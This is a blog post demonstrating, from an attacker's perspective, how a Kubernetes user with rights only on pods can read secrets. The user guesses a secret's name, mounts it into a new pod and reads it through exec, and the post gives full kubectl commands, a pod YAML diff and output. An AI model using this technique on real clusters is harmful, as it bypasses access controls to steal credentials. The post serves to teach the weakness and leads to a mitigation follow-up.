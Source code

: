 ```yaml
---
author: "Suraj Deshmukh"
date: "2021-05-08T12:17:07+05:30"
title: "Access Any Kubernetes Secret"
description: "A little trickery and access any Kubernetes Secret!"
draft: false
categories: ["kubernetes", "security"]
tags: ["kubernetes", "security"]
images:
- src: "/post/2021/05/access-k8s-secrets/forbidden.jpg"
  alt: "Forbidden"
---
```


Photo by [Kyle Glenn]("https://unsplash.com/@kylejglenn") on [Unsplash]("https://unsplash.com").


You can gain access to any secret that you want in Kubernetes even if you don't have RBAC permissions to get, list or view that secret. All you need is permission that allows you to do anything on pods and an ability to guess the names of secrets. With these two ingredients, here is how you can access any secret out there.

## Nasty User

Here is a user called `nastyuser` who can only do stuff on pod objects. Everything else is forbidden.
The user cannot list secrets, namespaces or deployments:

```bash
$ kubectl get ns
Error from server (Forbidden): namespaces is forbidden: User "nastyuser" cannot list resource "namespaces" in API group "" at the cluster scope

$ kubectl get secrets
Error from server (Forbidden): secrets is forbidden: User "nastyuser" cannot list resource "secrets" in API group "" in the namespace "default"

$ kubectl get deploy
Error from server (Forbidden): deployments.apps is forbidden: User "nastyuser" cannot list resource "deployments" in API group "apps" in the namespace "default"
```

The user has access to `pods` and `pods/exec` and a bunch of other things that are required for a user to have functional access to the Kubernetes:

```bash
$ kubectl auth can-i --list
Resources                                       Non-Resource URLs   Resource Names   Verbs
pods/exec                                       []                  []               [*]
pods                                            []                  []               [*]
selfsubjectaccessreviews.authorization.k8s.io   []                  []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []               [create]
                                                [/api/*]            []               [get]
                                                [/api]              []               [get]
                                                [/apis/*]           []               [get]
                                                [/apis]             []               [get]
                                                [/healthz]          []               [get]
                                                [/healthz]          []               [get]
                                                [/livez]            []               [get]
                                                [/livez]            []               [get]
                                                [/openapi/*]        []               [get]
                                                [/openapi]          []               [get]
                                                [/readyz]           []               [get]
                                                [/readyz]           []               [get]
                                                [/version/]         []               [get]
                                                [/version/]         []               [get]
                                                [/version]          []               [get]
                                                [/version]          []               [get]
```

**NOTE:** You will need at least `pods/exec` or `pods/logs` to see the content of the secret using the generic bash tools. If you don't have this extra permission, you can create a script that reads contents and uploads the contents somewhere, which you can access from over the web. For the sake of simplicity, I chose `pods/exec` as extra permission.

**NOTE:** How you gain access to a kubeconfig that has the aforementioned authorisation is out of the scope of this blog. It is possible to gain access somehow to the host and fortuitously gain access to the service account token secret that has previously mentioned permissions.

## Do what you can!

Now how do you gain access to secrets with RBAC permissions only for pods? Your social skills and guesswork is going to help you find the name of the secrets. But even if you guess the name of the secret, you cannot access the secret the kubectl way since RBAC won't let you do that. So you will use the only permission you have on the Kubernetes cluster, which is creating pods.

> If you don't have access to the Kubernetes secret but know the name of the Kubernetes secret, you can simply
> 1) Create a pod.
> 2) Mount that secret into the pod.
> 3) Kubelet will happily give it to you regardless of your RBAC permissions to access the secret.

Let's see that in action. Start by creating a dummy pod config:

```yaml
$ kubectl run sleep --image=fedora --dry-run=client -o yaml -- sleep infinity > pod.yaml
$ cat pod.yaml
apiVersion: v1
kind: Pod
metadata:
  creationTimestamp: null
  labels:
    run: sleep
  name: sleep
spec:
  containers:
  - args:
    - sleep
    - infinity
    image: fedora
    name: sleep
    resources: {}
  dnsPolicy: ClusterFirst
  restartPolicy: Always
status: {}
```

Now add the following changes to the config. Here we are mounting a secret inside the pod at path `/access-secret`. Once the pod is up and running, we will find the mounted secret in this directory. We will replace the `secretName` field value from `GUESSED_SECRET` with something else as we keep on guessing.

```diff
diff --git pod.yaml pod.yaml
index 479a53d..2376fe3 100644
--- pod.yaml
+++ pod.yaml
@@ -13,6 +13,13 @@ spec:
     image: fedora
     name: sleep
     resources: {}
+    volumeMounts:
+    - name: hackedsecret
+      mountPath: /access-secret/
   dnsPolicy: ClusterFirst
   restartPolicy: Always
+  volumes:
+  - name: hackedsecret
+    secret:
+      secretName: GUESSED_SECRET
 status: {}
```

## Attempt 1st

Use `sed` to replace the string `GUESSED_SECRET` and create the pod out of it:

```bash
$ sed 's|GUESSED_SECRET|admin|g' pod.yaml | kubectl create -f -
pod/sleep created
```

Now check the pod:

```bash
$ kubectl get pods
NAME    READY   STATUS              RESTARTS   AGE
sleep   0/1     ContainerCreating   0          96s
```

The pod is in `ContainerCreating` state for more than a minute that means the secret does not exist, and Kubelet is failing to mount it in the pod. Describing the pod won't tell us anything because we don't have access to the events.

```bash
$ kubectl describe pod sleep | tail -3
Tolerations:     node.kubernetes.io/not-ready:NoExecute op=Exists for 300s
                 node.kubernetes.io/unreachable:NoExecute op=Exists for 300s
Events:          <none>
```

Cleanup by running the following command:

```bash
$ kubectl delete pod sleep
pod "sleep" deleted
```

## Attempt nth

Let's try a different secret name:

```bash
$ sed 's|GUESSED_SECRET|supersecret|g' pod.yaml | kubectl create -f -
pod/sleep created
```

Let's check the pod status:

```bash
$ kubectl get pods
NAME    READY   STATUS    RESTARTS   AGE
sleep   1/1     Running   0          32s
```

Yay, that means we guessed the secret name correctly. Let's gain access to the pod's terminal to find out the contents of the secrets:

```bash
$ kubectl exec -it sleep bash
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
[root@sleep /]#
```

Now go to the place where the secret is mounted and discover what is in secret.

```bash
[root@sleep ~]# cd /access-secret/
[root@sleep access-secret]# cat data
supersecretvaluesinhere
```

## Conclusion

This post was from the perspective of an attacker. It showed you how you could use guessing the secret name to gain access to any secret you like, of course, with the help of Kubelet.

In the [next blog](https://suraj.io/post/2021/05/access-k8s-secrets-mitigation/), we will see how to detect this issue and stop it from happening.

## Background Setup

I used the following commands to create a user and assign permissions to that user:

```bash
kubectl create role pod-all --verb=* --resource=pods --resource=pods/exec
kubectl create rolebinding pod-all:nastyuser --role=pod-all --user=nastyuser
kubectl create secret generic supersecret --from-literal data=supersecretvaluesinhere
alias kubectl='kubectl --as=nastyuser'
```
